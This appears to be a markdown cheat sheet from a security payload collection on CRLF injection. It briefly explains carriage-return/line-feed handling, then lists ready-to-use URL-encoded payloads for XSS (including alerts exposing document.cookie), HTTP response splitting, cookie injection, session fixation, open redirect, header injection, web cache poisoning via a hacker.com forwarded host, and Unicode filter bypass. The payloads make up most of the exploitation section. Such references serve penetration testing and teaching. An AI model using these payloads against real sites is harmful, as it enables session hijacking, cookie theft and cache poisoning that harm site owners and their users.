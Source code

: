 # CRLF Injection
The term `CRLF` refers to **Carriage Return** (ASCII 13, `\r`) **Line Feed** (ASCII 10, `\n`). They’re used to note the termination of a line, however, dealt with differently in today’s popular Operating Systems. For example: in Windows both a CR and LF are required to note the end of a line, whereas in Linux/UNIX a LF is only required. In the HTTP protocol, the CR-LF sequence is always used to terminate a line.

A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Impacts of CRLF Injection
* XSS
* HTTP Response Splitting
* Open Redirect
* Session Fixation
* HTTP Header Injection
* Web Cache poisoning

## How to Exploit
* **XSS**
```html
# By Disabling XSS Protection
/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23

# By Popping an alert containing sensitive user information
/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e

# Response splitting on 302 Redirect, before Location header (Discovered in DoD)
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E

# Response splitting on 301 code, chained with Open Redirect to corrupt location header and to break 301.
# Note: xxx:1 was used for breaking open redirect destination (Location header).
# Great example how of to escalate CRLF to XSS on a such, it would seem, unexploitable 301 status code.
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```

* **HTTP Response Splitting / Cookie Injection**

HTTP Response Splitting allows an attacker to set malicious cookies on the victim’s browser. In most cases, the following GET request will result in a 307 Redirect, and thus the victim will be redirected to target.com & the URL won’t contain the Set-Cookie parameter. In the background however, the cookie will be set.
```html
# Check if the response is setting this cookie
/%0D%0ASet-Cookie:mycookie=myvalue
```

* **Open Redirect**
```html
//www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2
/www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
/google.com/%2F..%0D%0AHeader-Test:test2
/%0d%0aLocation:%20http://example.com
```

* **Session Fixation**

Similar to the Cookie Injection attack, here the attacker sets a user’s session id to a particular value. This link is sent to the victim and when the victim logs in using this session, the attacker can also log in by using the same session id.
```html
/%0d%0aSet-Cookie:session_id=942...
%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
```

* **HTTP Header Injection**
```html
%0d%0aheader:header
%0aheader:header
%0dheader:header
%23%0dheader:header
%3f%0dheader:header
/%250aheader:header
/%25250aheader:header
/%%0a0aheader:header
/%3f%0dheader:header
/%23%0dheader:header
/%25%30aheader:header
/%25%30%61header:header
/%u000aheader:header
%E5%98%8A%E5%98%8Dheader:header
```

* **Web Cache poisoning**
```html
/%0d%0aX-Forwarded-Host:hacker.com
```

* **Filter Bypass**
```html
%E5%98%8A = %0A = \u560a
%E5%98%8D = %0D = \u560d
%E5%98%BE = %3E = \u563e (>)
%E5%98%BC = %3C = \u563c (<)
Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```



